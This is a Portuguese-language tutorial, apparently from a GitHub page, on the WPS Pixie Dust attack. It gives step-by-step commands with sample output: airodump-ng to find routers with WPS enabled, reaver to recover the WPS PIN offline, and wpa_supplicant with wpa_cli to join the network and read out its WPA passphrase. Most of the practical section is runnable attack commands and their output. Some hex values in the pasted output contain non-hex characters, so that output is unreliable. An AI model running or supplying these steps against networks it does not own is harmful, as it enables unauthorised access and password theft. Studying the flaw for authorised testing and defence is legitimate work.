## pegando psk com pixie-dust attack 


O pixie dust attack consiste em realizar a quebra do WPS de maneira offline.O método offline 
envolve tentar apenas um PIN aleatório e coletar algumas informações durante o processo. Esses 
dados podem ser usados posteriormente para tentar o ataque pixie-dust.
A vulnerabilidade está na mensagem M3: no corpo da mensagem é utilizado
duas chaves AES de 128 bits randômicas (E-S1 e E-S2) para encriptação da
primeira e da segunda metade do PIN, respectivamente. Se as duas chaves
forem descobertas, é possível recuperar o número PIN com um ataque offline
em menos de um segundo, em vez de “chutar” o número PIN no roteador, processo que pode levar 
de 8 a 12 horas (mais informações sobre o brute-force offline aqui http://archive.hack.lu/2014/Hacklu2014_offline_bruteforce_attack_on_wps.pdf)


## Parte pratica
##### Com a interface em modo monitor você pode "sniffar" as redes em volta para identificar um alvo em potêncial com o airodump-ng adicionando a flag --wps dessa forma:
```
$ sudo airodump-ng --wps <interface>
```
> Repare na coluna WPS 

```
 CH  9 ][ Elapsed: 1 min ][ 2007-04-26 17:41 ]
                                                                                                            
 BSSID              PWR RXQ  Beacons    #Data, #/s  CH  MB   ENC  CIPHER  WPS  AUTH  ESSID
                                                                                                             
 00:09:5B:1C:AA:1D   11  16       10        0    0  11  54.  OPN          2.0           NETGEAR                         
 00:14:6C:7A:41:81   34 100       57       14    1   9  11e  WEP  WEP     1.0           bigbear 
 00:14:6C:7E:40:80   32 100      752       73    2   9  54   WPA  TKIP    2.0    PSK    teddy                             
                                                                                                            
 BSSID              STATION            PWR   Rate   Lost  Packets  Notes  Probes
                                
 00:14:6C:7A:41:81  00:0F:B5:32:31:31   51   36-24    2       14
 (not associated)   00:14:A4:3F:8D:13   19    0-0     0        4           mossy 
 00:14:6C:7A:41:81  00:0C:41:52:D1:D1   -1   36-36    0        5
 00:14:6C:7E:40:80  00:0F:B5:FD:FB:C2   35   54-54    0       99           teddy

```

##### Os APs com o WPS ativado apareceram nessa coluna com a versão do wps que o AP possui. Pode acontecer de alguns APs ficarem com um espaço vazio nessa coluna, isso é porque o wps está desativado.

##### Depois de ter identificado seu alvo, a ferramenta ultilizada para fazer o ataque ao WPS será a Reaver (link no final da pg) com o seguinte comando:
  
```
sudo reaver -i <interface> -c <channel> -b <mac do ap> -vv -K 1
(precisa da flag -vv)
```
##### O resultado pode variar um pouco porque depende muito do roteador que está sendo atacado. Essa falha é relativa ao firmware do roteador, não sendo todos os roteadores vulneráveis. Você pode ver alguns exemplos aqui -> https://forums.kali.org/showthread.php?25123-Reaver-modfication-for-Pixie-Dust-Attack ou pesquisar por conta própria e ver vários resultados diferentes que as pessoas conseguem por ai ... mas saída que deu certo pra mim foi semelhante a essa:

```
$ sudo reaver -i <interface> -c <channel> -b 01:D0:30:4A:49:45 -vv -K 1

Reaver v1.6.5 WiFi Protected Setup Attack Tool
Copyright (c) 2011, Tactical Network Solutions, Craig Heffner <cheffner@tacnetsol.com>

[+] Switching wlan0 to channel 2
[+] Waiting for beacon from 01:D0:30:4A:49:45
[+] Received beacon from 01:D0:30:4A:49:45
[+] Vendor: RalinkTe
[+] Trying pin "12345670"
[+] Sending authentication request
[!] Found packet with bad FCS, skipping...
[+] Sending association request
[+] Associated with 01:D0:30:4A:49:45 (ESSID: "nome qualquer")
[+] Sending EAPOL START request
[+] Received identity request
[+] Sending identity response
[+] Received M1 message
[+] Sending M2 message
executing pixiewps -e 
313ff74331338ed2d66cc580c997ee805df43626d3dfda23328688e110e5676b7aa9d36640956c1d5b712835a0b07a7ec2ac2363e44336232cf5c11517096bad3c95bc2db3f537c41cf0a80036e
5b680e3e1e130a9303c14f77abca481e4911f590148387c6dc2839e2820a028f9d9c0767d25216c01260c011259cbd30c846ada8da47e5dc9d3dbe99953d9f8ef547d42b3152f581e790aae608c
6b112aac298cb121a60b6ec8849f23497234685b05b53a632526765dbf12642ed0ee8213fb -s c6987c052c458512a2972cfacc923e4c61c9502723676b9493d1b783062ecg16 -z 
72e3a7f04f5eb1cdd4602fb15443099f82d56a02ccad15774ea873c84b4b1b0b -a 3c63e889ae1d26a4441e2f9fbf7b673ff4aee85889383d88dc3707253d155d6b -n 
db396a9e4066be20697a0e236d3aaef7 -r 
29722c42863986dd84a965db99fca766e49c04e58c70f3cc0526b1d6efa0798d3a8023d533f87ea70g6551e50274d40e6c19dd6b3842b496e8c5fc2efc62dd67dc0ad5276aa21321fb68a70bbe6
9d6d6f27e5fb61ff29411a35c9d8e7084d8920cba3656a628ed5e7559ce53804ed85ea840221a73e8fb277c1ff86be187fb4008608c1f086637b045078cfa4c5dfe797d10d866322331866a6cf8
1651af877ad5f074be7c94a5db570d9c467dbf6aa048b48e16bfe98a265657a764b4d09fa7a

 Pixiewps 1.4

 [?] Mode:     1 (RT/MT/CL)
 [*] Seed N1:  0x2e6f2d71
 [*] Seed ES1: 0x7f3d488f
 [*] Seed ES2: 0x4104ca5d
 [*] PSK1:     e7868366f236b343dc0777209b87a214
 [*] PSK2:     95a24c483176fadddc4469a305e893b2
 [*] ES1:      3dd1a7d64b65cbe1bd80ab4359css07e
 [*] ES2:      5502dec86e7ae960a247f6b8aa9c513d
 [+] WPS pin:  18630248   <==== PIN AQUI

 [*] Time taken: 0 s 294 ms
```
(você pode executar o comando "pixiewps" sugerido pela própria ferramenta, que trará o mesmo resultado do pin recuperado)

##### Dependendo do resultado do ataque o reaver consegue recuperar apenas o PIN do WPS como mostrado acima. Nos meus testes foi esse resultado que consegui, então a idéia é essa: recuperar o PIN com o ataque offline pixie-dust, depois se conectar ao AP com o pin recuperado usando o procedimento abaixo, para então pegar o psk

1. ***Crie o arquivo wpa_supplicant.conf em /etc/ e nesse arquivo vai as seguintes linhas***:

> ctrl_interface=/var/run/wpa_supplicant
>  
> ctrl_interface_group=0
>  
> update_config=1
  

2. ***Inicie o wpa_supplicant, com o arquivo de configuração /etc/wpa_supplicant.conf***:
```  
$ wpa_supplicant -Dwext -iwlan0 -c /etc/wpa_supplicant.conf
```

  
3. ***Em outro terminal inicie o wpa_cli para realizar a conexão ao ponto de acesso por meio do número PIN***:
```  
$ wpa_cli wps_reg 74:EA:3A:E1:E8:66 02283470
                     <mac do ap>    <pin wps>
```
  
  
4. ***O wpa_supplicant fará a conexão ao ponto de acesso. No terminal em que o wpa_supplicant foi iniciado
é retornado uma mensagem de que a conexão foi bem-sucedida***:
```  
$ wpa_supplicant -Dwext -iwlan0 -c /etc/wpa_supplicant.conf
ioctl[SIOCSIWENCODEEXT]: Invalid argument
ioctl[SIOCSIWENCODEEXT]: Invalid argument
wlan0: Failed to initiate AP scan
wlan0: Trying to associate with 74:ea:3a:e1:e8:66 (SSID='TP-LINK_E1E866' freq=2462 MHz)
wlan0: Associated with 74:ea:3a:e1:e8:66
wlan0: WPA: Key negotiation completed with 74:ea:3a:e1:e8:66 [PTK=CCMP GTK=CCMP]
wlan0: CTRL-EVENT-CONNECTED - Connection to 74:ea:3a:e1:e8:66
completed (auth) [id=1 id_str=]
```
  
  
5. ***Visualize o conteúdo do arquivo /etc/wpa_supplicant.conf com a senha
wireless da rede***:
```
$ cat /etc/wpa_supplicant.conf
network={
ssid="TP-LINK_E1E866"
bssid=74:ea:3a:e1:e8:66
psk="senha123"
proto=RSN
key_mgmt=WPA-PSK
pairwise=CCMP
auth_alg=OPEN
}
```

referencia:
- https://novatec.com.br/livros/pentest-redes-sem-fio/
- https://en.wikipedia.org/wiki/Wi-Fi_Protected_Access#WPS_PIN_recovery
- https://en.wikipedia.org/wiki/Wi-Fi_Protected_Setup
- https://github.com/wiire-a/pixiewps
- https://github.com/t6x/reaver-wps-fork-t6x
- https://forums.kali.org/showthread.php?24286-WPS-Pixie-Dust-Attack-(Offline-WPS-Attack)
